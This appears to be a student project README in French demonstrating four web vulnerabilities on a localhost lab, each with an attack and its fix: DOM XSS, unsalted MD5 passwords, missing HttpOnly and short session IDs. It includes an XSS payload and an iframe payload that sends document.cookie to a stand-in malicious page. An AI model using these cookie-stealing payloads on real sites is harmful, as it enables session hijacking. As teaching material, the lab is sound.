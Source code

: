 # was-grp11
Groupe 11 (Youssra IBRAHIMI, Io ALFANO, Assia HAFID)
  
## DOM Based XSS  
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
On peut créer un bouton de la manière suivante http://localhost:port/dom_xss_1/atk_dom_xss_1.html?button=My%20custom%20button <br/>
**Attaque :** <br/>
Aller sur la page http://localhost:port/dom_xss_1/atk_dom_xss_1.html?button=<script>alert(document.cookie)</script> <br/>
Cela va générer une alerte avec le cookie. Le serveur va générer un objet DOM sans vérifier si le code contient un script malveillant. <br/>
**Defense :**<br/>
Pour contrer ce type d’attaque il faut utiliser un outil pour nettoyer le code avant de l’ajouter au DOM. Nous avons utilisé DOMPurify. <br/>
Quand du code JavaScript est repéré, il est supprimé avant d'être ajouté dans le DOM.<br/>
<br/>
## Password Salting
**Prérequis :**<br/>
Télécharger les fichiers du github, et lancer un serveur localhost sur le port de votre choix dans le dossier was-grp11/<br/>
Initilisaliser la base de données en faisant `<sudo mysql < init_db_password.sql>`.<br/>
La page HTML permet de s’authentifier sur le compte de l’administrateur. Le serveur va récupérer le mot de passe de l’administrateur qui vaut MD5(‘admin123’) et va le comparer au mot de passe à tester sur lequel la fonction MD5 a été appliquée.<br/>
De cette manière un attaquant peut facilement retrouver le mot de passe grâce à des rainbow tables.<br/>
**Attaque :** <br/>
http://localhost:port/atk_password.php?password=admin123<br/>
**Defense :**<br/>
Pour générer un nouveau mot de passe nous avons utilisé le code suivant :<br/>
`<$salt = bin2hex(openssl_random_pseudo_bytes(22));>`<br/>
`<$hash = crypt($_GET['password'], "$2a$12$".$salt);>`<br/>
De cette manière un salt est généré aléatoirement pour chaque mot de passe et l’utilisation de rainbow tables devient plus compliqué.<br/>
<br/>
## Session HttpOnly
HttpOnly est un attribut des cookies qui permet d’indiquer aux navigateurs de ne pas laisser des scripts avoir accès aux cookies depuis le DOM. Le site vulnérable n’implémente pas HttpOnly.<br/>
**Attaque :**<br/>
L’attaquant a déposé un lien permettant d’envoyer une requête contenant les cookies sur un site malveillant. HttpOnly est désactivé.<br/>
`<<iframe src="javascript:document.location='http://localhost:8089/bad_session_httponly.php?cookie='+document.cookie"></iframe>>`<br/>
**Defense :**<br/>
Pour protéger ce site de ce genre d’attaque, il faut préciser aux navigateurs d’utiliser HttpOnly. De cette manière, un attaquant ne pourra pas récupérer des données contenues dans les cookies.<br/>
<br/>
## Session ID Length
**Attaque :**<br/>
Le site vulnérable créé un cookie en faisant un hachage d'une longueur de 64 bits. Pour exploiter la vulnérabilité il faut utiliser des rainbows tables composé de hachage et trouver le bon mot de passe qui génère le bon hachage.<br/>
**Defense :**<br/>
Pour améliorer la défense du site il faut augmenter la taille du session ID. Elle doit être de 128 bits minimum. Le nouveau site génère les session ID avec des hachages de 128 bits.<br/>
